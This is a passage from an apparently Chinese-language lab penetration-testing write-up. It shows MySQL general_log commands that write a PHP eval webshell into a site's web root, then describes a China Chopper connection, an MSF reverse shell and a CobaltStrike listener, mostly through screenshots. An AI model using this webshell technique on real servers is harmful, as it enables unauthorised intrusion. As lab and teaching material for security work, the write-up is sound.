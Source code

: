 这里我们利用日志文件Getshell。传送门：[phpmyadmin利用日志文件Getshell](https://blog.csdn.net/qq_36119192/article/details/103461736#%E5%88%A9%E7%94%A8%E6%97%A5%E5%BF%97%E6%96%87%E4%BB%B6Getshell "phpmyadmin利用日志文件Getshell")



执行以下命令



```
set global general_log=on;                                     #开启日志      
set global general_log_file='C:/phpstudy/www/yxcms/hack.php';  #设置指定文件为网站日志存放文件      
SELECT '<?php eval($_POST["cmd"]);?>'               #执行该语句，会将该命令写入日志文件中
```




最后用菜刀连接，如下。



![](https://img-blog.csdnimg.cn/20191216222250162.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



后渗透第一步

------



在拿到了Web服务器的权限后，我们就要尽可能多的搜集该服务器的信息，然后搭建隧道通往内网！



执行以下命令我们知道当前的用户身份是 administrator ，在管理员组中，并且处在域 god 中。该主机有两张网卡，分别是：192.168.10.14，192.168.52.143。由此可知，其实获得的这个权限就是域管理员权限。(搞不懂环境为啥要以域管理员账号登录，为啥不以本地普通用户登录？？)



![](https://img-blog.csdnimg.cn/20191216222340163.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20191217220131201.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



现在我们想反弹一个MSF的shell。将MSF生成的木马上传到该主机上，执行，反弹成功！



![](https://img-blog.csdnimg.cn/20191223225302318.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 派生CobaltStrike权限



首先在CobaltStrike上开启一个监听



![](https://img-blog.csdnimg.cn/20191218102926788.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
